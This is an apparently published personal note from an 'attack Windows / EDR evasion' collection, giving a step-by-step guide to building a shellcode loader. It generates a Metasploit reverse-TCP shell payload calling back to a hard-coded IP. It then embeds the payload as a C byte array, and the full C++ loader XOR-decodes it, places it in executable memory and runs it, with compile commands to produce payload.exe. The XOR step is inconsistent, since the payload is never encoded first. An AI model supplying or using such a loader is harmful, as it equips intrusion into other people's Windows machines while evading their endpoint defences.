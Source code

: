 ```yaml
---
{"dg-publish":true,"permalink":"/attack-computer/attack-windows/1a-windows-defense-mechanism/2-edr-evasion/0-binary-creation-and-insertion/","noteIcon":"","created":"2025-04-15T14:11:19.619-04:00"}
---
```




















`msfvenom -p windows/shell/reverse_tcp LHOST=172.23.23.32 LPORT=443 -f raw > mal.bin`


To include your **binary file (`mal.bin`)** in your C++ code, follow these steps:

---

## **1. Convert `mal.bin` to a C++ Byte Array**
Since `mal.bin` contains raw binary data, you need to **convert it into a byte array** to embed it in your C++ code. Use **xxd** (Linux/macOS) or a Python script (Windows/Linux) for conversion.

### **Method 1: Use `xxd` (Linux/macOS)**
Run this command to convert `mal.bin` to a C-style byte array:
```bash
xxd -i mal.bin > mal_payload.h
```
This generates output like:
```c
unsigned char mal_bin[] = {
  0x1d, 0x52, 0x30, 0x52, 0x08, 0x75, 0x7d, 0x3b, 0x7d, 0x24, 0x75, 0x58,
  0x58, 0x24, 0x66, 0x4c, 0xd0, 0x8a, 0x58, 0x20, 0x50, 0xd3, 0x8b, 0x48,
  // ... rest of the binary data
};
unsigned int mal_bin_len = 256; // Adjust based on actual size
```
Now, you can include this file in your C++ code:
```cpp
#include "mal_payload.h"
```

---

### **Method 2: Use Python to Convert `mal.bin` (Windows/Linux)**
```python
with open("mal.bin", "rb") as f:
    data = f.read()

print("unsigned char mal_bin[] = {", end="")
for i, byte in enumerate(data):
    print(f"0x{byte:02X}, ", end="")
    if (i + 1) % 16 == 0:
        print()
print("};")

print(f"unsigned int mal_bin_len = {len(data)};")
```
Run this script, and **copy the output** into your C++ file.

---

## **2. Modify C++ Code to Use `mal.bin`**
Now, modify the code to **use the embedded binary payload** instead of a manually typed shellcode:

```cpp
#include <iostream>
#include <windows.h>
#include "mal_payload.h"  // Include the converted binary file

/*
	- pShellcode : Base address of the payload to encrypt 
	- sShellcodeSize : The size of the payload 
	- bKey : A random array of bytes of specific size
	- sKeySize : The size of the key
*/
void XorByInputKey(PBYTE pShellcode, SIZE_T sShellcodeSize, PBYTE bKey, SIZE_T sKeySize) {
    for (size_t i = 0, j = 0; i < sShellcodeSize; i++, j++) {
        if (j >= sKeySize) {
            j = 0;  // Reset key index when reaching the end
        }
        pShellcode[i] ^= bKey[j];  // XOR encryption
    }
}

int main() {
    PBYTE shellcode = (PBYTE)mal_bin;
    SIZE_T shellcode_size = mal_bin_len;

    unsigned char key[] = { 0xAA, 0xBB, 0xCC }; // Multi-byte XOR key
    SIZE_T key_size = sizeof(key);

    std::cout << "Original Encrypted Payload:\n";
    for (SIZE_T i = 0; i < shellcode_size; i++) {
        std::cout << "0x" << std::hex << (int)shellcode[i] << " ";
    }
    std::cout << "\n";

    // Decrypt before execution
    XorByInputKey(shellcode, shellcode_size, key, key_size);

    // Allocate executable memory
    void* exec_mem = VirtualAlloc(NULL, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!exec_mem) {
        std::cerr << "[-] VirtualAlloc failed!\n";
        return 1;
    }

    // Copy decrypted shellcode to allocated memory
    memcpy(exec_mem, shellcode, shellcode_size);

    // Execute the shellcode
    ((void(*)())exec_mem)();

    return 0;
}
```

---

## **Final Steps**
1. **Convert `mal.bin` to a C array** using `xxd -i` or Python.
2. **Include `mal_payload.h`** in your C++ file.
3. **Use `mal_bin` and `mal_bin_len` instead of manually typing shellcode.**
4. **Compile & Run**:
   ```bash
   g++ -o payload.exe payload.cpp -static -mwindows
   ```
   Or for MinGW on Windows:
   ```bash
   x86_64-w64-mingw32-g++ -o payload.exe payload.cpp -static
   ```

---
`